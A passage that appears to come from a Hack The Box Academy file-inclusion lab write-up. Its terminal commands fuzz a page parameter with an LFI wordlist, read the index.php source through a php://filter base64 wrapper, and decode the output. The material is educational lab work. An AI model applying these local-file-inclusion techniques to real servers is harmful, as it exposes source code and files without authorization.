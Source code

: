 ```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ggls88cepp]─[~]
└──╼ [★]$ ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://83.136.248.180:59877/index.php?page=FUZZ' -fs 4322,4521

❌
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ggls88cepp]─[~]
└──╼ [★]$ curl 'http://83.136.248.180:59877/index.php?page=php://filter/read=convert.base64-encode/resource=index'

[SNIP]

PCFET0NUWVBFIGh0bWw+CjxodG1sIGxhbmc9ImVuIj4KICA8aGVhZD4KICAgIDx0aXRsZT5JbmxhbmVGcmVpZ2h0PC90aXRsZT4KICAgIDxtZXRhIGNoYXJzZXQ9InV0Zi04Ij4KICAgIDxtZXRhIG5hbWU9InZpZXdwb3J0IiBjb250ZW50PSJ3aWR0aD1kZXZpY2Utd2lkdGgsIGluaXRpYWwtc2NhbGU9MSwgc2hyaW5rLXR...

[SNIP]
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ggls88cepp]─[~]
└──╼ [★]$ echo -n 'PCFET0NUWVBFIGh0bWw+CjxodG1sIGxhbmc9ImVuIj4KICA8aGVhZD4KICAgIDx0aXRsZT5JbmxhbmVGcmVpZ2h0PC90aXRsZT4KICAgIDxtZXRhIGNoYXJzZXQ9InV0Zi04Ij4KICAgIDxtZXRhIG5hbWU9InZpZXdwb3J0IiBjb250ZW50PSJ3aWR0aD1kZXZpY2Utd2lkdGgsIGluaXRpYWwtc2NhbGU9MSwgc2hyaW5rLXR...' | base64 -d > index.php
```

![Pluma - Homepage Source Code](./assets/screenshots/file_inclusion_skills_assessment_pluma_homepage_source_code.png)

![Firefox - Admin Panel](./assets/screenshots/file_inclusion_skills_assessment_firefox_admin_panel.png)
